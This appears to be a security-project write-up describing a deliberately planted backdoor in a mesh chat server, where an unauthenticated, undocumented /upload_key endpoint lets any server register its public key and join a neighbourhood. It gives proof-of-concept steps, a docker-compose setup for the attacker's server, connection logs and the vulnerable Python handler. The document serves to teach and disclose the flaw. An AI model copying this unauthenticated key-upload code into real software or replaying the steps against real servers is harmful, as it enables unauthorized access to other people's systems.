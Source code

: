# Backdoor 4: Unauthorised Access

## Description

This backdoor allows any server to join any neighbourhood, regardless of whether they were allowed to or not.

## Technical Details

Servers employ an endpoint to upload public keys. This allows admins to quickly verify each other without needing to alert someone first. This endpoint is not documented, and can only be found through directory bursting, or already knowing it exists. The endpoint is not password protected, so anyone can browse to it and upload their public key.

Since a server connection is only 1 way, a server only needs to verify another server's public key in order to join the neighborhood. Essentially, this allows any server to join a neighborhood by maliciously uploading their public key without permission.

## Objectives

1. Broken Access Control: Allows unauthorized servers to join any neighborhood without proper permissions.
2. Cryptographic Failures: Exploits weak key management by accepting arbitrary public key uploads.
3. Insecure Design: Takes advantage of the system's lack of proper validation for new neighborhood members.
4. Security Misconfiguration: Utilizes an exposed, undocumented endpoint (/upload_key) to compromise the system.

## Exploitation Method (Proof of Concept)

1. Attacker identifies the `/upload_key` page through directory bursting, social engineering or some other threat vector.

- They note down the server's IP address and port `65.108.216.173:8766`

![Image 4.1](appendix/Image%204.1.png)

<p align="center"><em>Figure 4.1: Attacker has found the upload_key page on a victim's HTTP server</em></p>

2. Attacker initialises their server and sets the victim's server inside their `NEIGHBOUR_ADDRESSES` environment variable.

```yml
version: "3.8"
services:
  malicious_server:
    build:
      context: .
      dockerfile: ./server/Dockerfile
    container_name: malicious_server
    ports:
      - "8765:8765" # WebSocket port for clients
      - "8766:8766" # WebSocket port for servers
      - "8081:8081" # HTTP port for file transfers
    volumes:
      - malicious_client:/app/server/clients
      - malicious_files:/app/server/files
      - malicious_config:/app/server/config
      - victim_neighbours:/app/server/neighbours
    environment:
      - BIND_ADDRESS=0.0.0.0
      - CLIENT_WS_PORT=8765
      - SERVER_WS_PORT=8766
      - HTTP_PORT=8081
      - NEIGHBOUR_ADDRESSES=65.108.216.173:8766 # victim server
      - LOG_MESSAGES=True
      - EXTERNAL_ADDRESS=203.221.52.227
    networks:
      - olaf_network

volumes:
  malicious_client:
  malicious_files:
  malicious_config:
  victim_neighbours:

networks:
  olaf_network:
    driver: bridge
```

3. Attacker starts up their server for the first time. They note that they immediately disconnect from the victim server because their key hasn't been added yet!

```
[ 0 02:43:18 ted-bundy ~/Documents/OMesh ] $ docker compose -f malicious_server.yml up --build
...                                                                                                                                                                                                   0.0s
Attaching to malicious_server
malicious_server  | 2024-09-29 17:13:28,099 - __main__ - INFO - Generated new key pair and saved to config directory.
...
malicious_server  | 2024-09-29 17:13:44,802 - __main__ - INFO - Connected to server at 65.108.216.173:8766
malicious_server  | 2024-09-29 17:13:45,472 - __main__ - INFO - Disconnected from server 65.108.216.173.
```

4. The attacker makes a copy of their public key, and uploads it to the victim's server

![Image 4.2](appendix/Image%204.2.png)

<p align="center"><em>After uploading, the victim server will accept connections from the malicious server, without it's admin authorising it</em></p>

5. The malicious server attempts to connect again, this time sucessfully.

- The malicious server can now connect as if it was a verified neighbour and use other backdoors to do other malicious things; exfiltrate data, impersonate other clients, or control the other servers!

```
[ 0 02:52:33 jeffrey-dahmer ~/Documents/OMesh ] $ docker compose -f malicious_server.yml up --build
...
Attaching to malicious_server
malicious_server  | 2024-09-29 17:22:37,154 - __main__ - INFO - Loaded existing key pair from config directory.
...
malicious_server  | 2024-09-29 17:22:53,860 - __main__ - INFO - Connected to server at 65.108.216.173:8766
malicious_server  | 2024-09-29 17:22:54,198 - __main__ - INFO - Received message of type 'client_update'
malicious_server  | 2024-09-29 17:22:54,198 - __main__ - INFO - Updated client list from server 65.108.216.173.
```

<p align="center"><em>Figure 4.3: After sending a server hello to the victim's server, it receives back an updated client list meaning it has been verified!

## Detection Challenges

- No inherent 'backdoor' visible. Functionality for this code is actually used for real server operation and doesn't stand out as anything particularly malicious, just dangerous.
- Server endpoints are hidden and not documented. Malicious actors must use another tool to exploit this vulnerability.

## Code Snippet

```python
    async def start(self):
        # ... (code for starting the server)

        # key endpoints
        app.router.add_get('/pub', self.handle_get_public_key)
        app.router.add_get('/upload_key', self.handle_upload_key_page)
        app.router.add_post('/upload_key', self.handle_upload_key)


    async def handle_get_public_key(self, request):
        """
        Returns the server's public key as a PEM-formatted string.
        """
        public_pem = export_public_key(self.public_key).decode('utf-8')
        return web.Response(text=public_pem, content_type='text/plain')

    async def handle_upload_key(self, request):
        """
        Handles the uploaded public key file and saves it to the neighbours directory.
        """
        reader = await request.multipart()
        # Read address field
        field = await reader.next()
        if field.name != 'address':
            return web.Response(text="Missing 'address' field.", status=400)
        address = await field.text()

        # Read port field
        field = await reader.next()
        if field.name != 'port':
            return web.Response(text="Missing 'port' field.", status=400)
        port = await field.text()

        # Read file field
        field = await reader.next()
        if field.name != 'file':
            return web.Response(text="Missing 'file' field.", status=400)
        filename = field.filename
        if not filename.endswith('.pem'):
            return web.Response(text="Invalid file type. Only .pem files are accepted.", status=400)

        # Save the uploaded file
        key_filename = f"{address}_{port}_public_key.pem"
        key_filepath = os.path.join(NEIGHBOURS_DIR, key_filename)
        size = 0
        with open(key_filepath, 'wb') as f:
            while True:
                chunk = await field.read_chunk()
                if not chunk:
                    break
                size += len(chunk)
                if size > 10 * 1024:  # Limit file size to 10KB
                    return web.Response(text="File size exceeds limit.", status=413)
                f.write(chunk)

        # Reload the neighbour public keys
        self.neighbour_public_keys = self.load_neighbour_public_keys()

        return web.Response(text=f"Public key for {address}:{port} uploaded successfully.", status=200)

    async def handle_upload_key_page(self, request):
        """
        Serves an HTML page with a form to upload a public key file.
        """
        html = '''
        <html>
        <body>
            <h1>Upload Public Key</h1>
            <form action="/upload_key" method="post" enctype="multipart/form-data">
                Address: <input type="text" name="address" required><br>
                Port: <input type="text" name="port" required><br>
                Public Key File: <input type="file" name="file" accept=".pem" required><br>
                <input type="submit" value="Upload">
            </form>
        </body>
        </html>
        '''
        return web.Response(text=html, content_type='text/html')
```
